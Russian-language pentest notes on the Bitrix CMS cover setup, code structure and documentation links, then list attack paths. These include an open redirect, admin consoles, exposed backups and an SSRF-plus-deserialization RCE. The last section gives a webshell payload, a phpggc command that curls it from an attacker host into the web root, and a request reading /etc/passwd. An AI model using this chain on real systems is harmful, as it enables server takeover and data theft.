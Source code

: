 # Bitrix

## Src

link: [https://doc.budagov.ru/](https://doc.budagov.ru/)

Git с bitrix разных версий: [https://github.com/avshatalov48/bitrix-core-business](https://github.com/avshatalov48/bitrix-core-business)

## Установка

Самой простой способ установить – поставить BitrixVM. Скачиваем с офф сайта Centos образ (OVA). Открываем в VMWare, даем доступ к сети для виртуалки.&#x20;

Запускаем, дефолтные кредсы – `root/bitrix` и `bitrix/bitrix`. Меняем пароль для обоих пользователей.

Настраиваем Management Pool (1 опция в следующем меню): указываем любой виртуальный хост и если сетка работает, то все ок. Что бы выйти в консоль на тачке, много раз выбираем опцию 0.

Теперь заходим по IP с хостовой системы и устанавливаем Bitrix CMS (Бизнес, демо доступ, и ставим сайт для разработчика).

Теперь у нас по пути `/home/bitrix/www` инсталяция битры. `/home/bitrix/www/bitrix` — здесь ядро битрикса со всеми плагинами.

Как узнать какая версия ядра битры у вас:

* В админке битры прокрутить в самый низ страницы
* Параметр `SM_VERSION` в сорцах (`modules/main/classes/general/version.php`)

Легкий способ забрать сорцы с тачки (чтобы не мучаться с открытием портов на centos): запаковать папку соответствующую, в админке в разделе управления контентом забрать из файлового менеджера.

### Другие способы установки

* Вроде как можно автоматизировать развертку битры на своей впс'ке ([https://handyhost.ru/help/poleznyie-stati/bitrixvm.html](https://handyhost.ru/help/poleznyie-stati/bitrixvm.html) через bitrix-env)
* Можно использовать PHP-скрипт bitrixsetup, он же используется в проекте bitrixdock (ребята обернули все необходимое окружение в Docker, подходит для разворачивания демки; [https://github.com/bitrixdock/bitrixdock](https://github.com/bitrixdock/bitrixdock)) Правда у меня не вышло ни на хостовой системе, ни на DO: возможно я что-то с окружением напутал, или надо подправить их конфиг, хз (**TODO**).

## Что внутри

### Ядро

**Ядро продукта** - файлы, находящиеся в директории `/bitrix/modules/` а так же файлы системных компонентов: `/bitrix/components/bitrix/`.

### Компоненты

Компонент — то, что пишет уже разработчик — независимая функциональность (= библиотека).&#x20;

```
Папка компонента может содержать следующие подпапки и файлы:

    подпапку /lang, в которой расположены файлы языковых сообщений (переводов) компонента. В ней также могут размещаться папки помощи /help.
    подпапку /templates, в которой расположены шаблоны вывода (отображения) компонента. Эта подпапка может отсутствовать, если у компонента нет шаблонов вывода.
    файл component.php, который содержит логику (код) компонента. Задача этого файла - сформировать из полученных параметров ($arParams) массив $arResult, который впоследствии попадет в шаблон компонента. Этот файл должен присутствовать в папке компонента, если только логика компонента не размещена в файле class.php.
    файл .description.php, который содержит название, описание компонента и его положение в дереве логического размещения (для редактора). Этот файл должен всегда присутствовать в папке компонента. Его отсутствие не скажется на работе компонента, но размещение компонента через визуальный редактор станет невозможным.
    файл .parameters.php, который содержит описание входных параметров компонента для редактора. Если у компонента есть входные параметры, то этот файл должен присутствовать в папке компонента.
    файл class.php для поддержки ООП-компонентов. В этом файле так же может размещаться логика (код) компонента.
    файл script.js, может подключаться из шаблона, а может из кода компонента .
    любые другие папки и файлы с ресурсами, необходимыми компоненту, например, папка /images.

```

Компоненты в Bitrix Framework должны храниться только в определенных местах:

* в папке `/bitrix/components/bitrix` (по умолчанию);
* в папке `/bitrix/components/собственное пространство имен`.
* в папке `/local/components/` (рекомендуется для собственных компонентов сторонних разработчиков)

Все компоненты находятся в папке `/bitrix/components/`. Системные компоненты находятся в папке `/bitrix/components/bitrix/`. Содержимое этой папки обновляется системой обновлений и не может изменяться пользователями.

Пользовательские компоненты могут находиться в любых других подпапках папки `/bitrix/components/` или прямо в папке `/bitrix/components/`, но рекомендуется папка `/local/components/`.

Подключение:

В самом общем виде подключение компонента осуществляется следующим образом:

```
<?$APPLICATION->IncludeComponent(
   $componentName,         // имя компонента
   $componentTemplate,     // шаблон компонента, пустая строка если шаблон по умолчанию
   $arParams=array(),      // параметры
   $parentComponent=null,  // null или объект родительского компонента
   $arFunctionParams=array()
);?>
```

## Docs

Курс от компании битрикс для разработчиков: [https://dev.1c-bitrix.ru/learning/course/index.php?COURSE\_ID=43\&INDEX=Y](https://dev.1c-bitrix.ru/learning/course/index.php?COURSE\_ID=43\&INDEX=Y)

Документация по продукту 1С-Битрикс Управление сайтом: [http://dev.1c-bitrix.ru/user\_help/](http://dev.1c-bitrix.ru/user\_help/)

Документация для разработчиков: [http://dev.1c-bitrix.ru/api\_help/](http://dev.1c-bitrix.ru/api\_help/)

Документация для разработчиков по Rest API: [http://dev.1c-bitrix.ru/rest\_help/](http://dev.1c-bitrix.ru/rest\_help/)

Про битрикс с точки зрения экосистемы: [https://habr.com/ru/post/282333/](https://habr.com/ru/post/282333/)

## Open Redirect&#x20;

Будет предупреждение. Как бы все ок, но все же

```
https://<domain>/<path>/bitrix/redirect.php?goto=<redirect>
```

## Внутри консоли PHP и SQL

Можно проверять на доступ к функциям специфичным (например, shell\_exec)

```
https://<domain>/bitrix/admin/sql.php
https://<domain>/bitrix/admin/php_command_line.php
```

## Настройки

Настройки смотреть здесь: [https://\<domain>/bitrix/admin/settings.php](https://staging.s-devices.ony.digital/bitrix/admin/settings.php)

В Bitrix есть компонент — Сканер безопасности. Он выдает толковые вещи и рекомендации по устранению:

```
https://<domain>/bitrix/admin/security_scanner.php
```

## Проверить, не палит ли бэкапы:

```
/bitrix/backup/
```

## SSRF + Deser = RCE

Версии ядра «Битрикс» до `20.0.975` содержат уязвимость типа SSRF, которая в комбинации с небезопасной десериализацией позволяет выполнить произвольный код в контексте операционной системы.&#x20;

```
$ cat payload
<?php system($_REQUEST['some_s3cr3t_post_param_for_rce']); ?>
$ php phpggc Bitrix/RCE2 system 'curl http://my.domain.com/payload -o /var/www/some.domain.bitrix.com/bitrix/tools/test_23235235.php' -b
```

Таким образом по пути /var/www/some.domain.bitrix.com/bitrix/tools/test\_23235235.php загружен шелл

Делаем запрос:

```
POST /bitrix/tools/test_23235235.php HTTP/1.1
Host: some.domain.bitrix.com

some_s3cr3t_post_param_for_rce=cat /etc/passwd
```

&#x20;
